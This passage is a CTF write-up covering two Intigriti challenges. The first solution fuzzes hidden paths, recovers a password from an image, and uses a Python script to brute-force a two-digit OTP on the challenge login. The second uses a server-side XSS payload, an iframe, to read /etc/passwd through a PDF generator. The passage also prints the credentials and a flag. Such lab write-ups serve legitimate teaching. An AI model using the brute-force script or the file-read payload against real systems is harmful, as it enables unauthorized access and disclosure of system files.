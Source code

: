 This challenge so guessy and take me hours to solve this. 
**Solution:**
When see this challenge i thought we do something xss with html2canvas lol. But seeing this challenge is misc i give up that. And use **feroxbuster** to see another hidden path is /artist. 
![image](https://hackmd.io/_uploads/HkCB8IwNT.png)
When see it i remember my teammate found a password in the image using zsteg. `Mich3l@ngel0$ist1n3!511`
But i try to fuzzing the username. And then the author hint the username. 
![image](https://hackmd.io/_uploads/rkunu8w4p.png)
So guessy hmm. So the username and the password is done now. The last one is OTP(This OTP at the beginning they set it 3 digit pin and then the solution is 2 digit).

**Final exploit script:**
```python
import requests
import re

url = 'https://leekycomics.ctf.intigriti.io/artist_login'

def clean_html(html):
    clean = re.compile("<.*?>")
    return re.sub(clean, '', html)
for i in range (10,100):
    data = {
        'username': 'Picasso',
        'password': 'Mich3l@ngel0$ist1n3!511',
        'otp': i
    }
    response = requests.post(url, data=data)
    res = clean_html(response.text)
    if "Incorrect login." in res:
        print("Login failed: Incorrect login in: " + str(i))
    else:
        print("Login successful in: " + str(i))
        print(response.text)
        exit
```
![image](https://hackmd.io/_uploads/ryzsc8D4p.png)

Flag: `INTIGRITI{5up3r_53cr37_fl46_dr_l33k_r0ck5}`

### **7. My Music (Not Solve)**
- **Author:** holmesec
- **Caterogy:** Web
- **Description:** Checkout my new platform for sharing the tunes of your life! 🎶

This challenge i just solve the first part. And also the idea in second part but fail here.
**Solution:**
![image](https://hackmd.io/_uploads/rykFJpwVa.png)
This challenge give me a spotify track code. And then they generate to PDF so i think this can be Server Side XSS (Cross Site Scripting). After trying some payload in PayloadsAllTheThings, i see this payload works.
`<iframe src="file:///etc/passwd" width="1000" height="1000"></iframe>`.
So this can LFI to get the file. The structure looks like this.
![image](https://hackmd.io/_uploads/BJEuQ6vNT.png)
**Review code:**
In the app/routes/index.js i found this.
```javascript
router.get('/admin', isAdmin, (req, res) => {
 res.render('admin', { flag: process.env.FLAG || 'CTF{DUMMY}' })
})
```